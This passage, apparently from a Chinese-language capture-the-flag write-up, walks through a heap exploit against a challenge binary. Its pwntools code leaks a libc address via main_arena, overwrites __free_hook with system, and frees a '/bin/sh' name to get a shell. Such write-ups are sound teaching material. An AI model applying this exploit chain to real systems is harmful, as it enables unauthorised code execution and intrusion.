 接著就用類似 Easyheap 的方法，修改 Chain 的順序後讀出 `main_arena+96` 的數值，我們就有 Libc 的基值了：

```python
login(r, r_tokens[0])
update_user(r, p64(BASE_HEAP+0x3f0), b"PWN", p64(BASE_HEAP + 0x6d0))
logout(r)

login(r, r_tokens[5])
r.recvuntil(b"Hello ")
BASE_LIBC = u64(r.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
logout(r)
```

#### 劫持 `__free_hook` 成 `system`

跟剛剛斷鏈的方法一樣，我們也可以透過這個方法寫入 `__free_hook`：

```python
ADDR_SYSTEM = BASE_LIBC + 0x55410
ADDR_FREE_HOOK = BASE_LIBC + 0x1eeb28

# Write FREELIBC
login(r, r_tokens[0])
update_user(r, p64(ADDR_FREE_HOOK), b"PWN", p64(BASE_HEAP + 0x6d0))
logout(r)

login(r, r_tokens[5])
update_user(r, p64(ADDR_SYSTEM), b"PWN", p64(BASE_HEAP + 0xd90))
logout(r)
```

最後在 `free` 之前，我還有重新把 Chain 接回去，一免分配錯誤：

```python
# Restore Chain
login(r, r_tokens[0])
update_user(r, p64(BASE_HEAP+0xb90), b"PWN", p64(BASE_HEAP + 0x6d0))
logout(r)
```

#### 觸發 `free`

簡單觸發 `free(user->name)` 後 Get Shell：

```python
r_tokens[0] = signup(r, b"/bin/sh", b"PWN", b"SEC")
login(r, r_tokens[0])
delete_account(r, r_tokens[0])
```
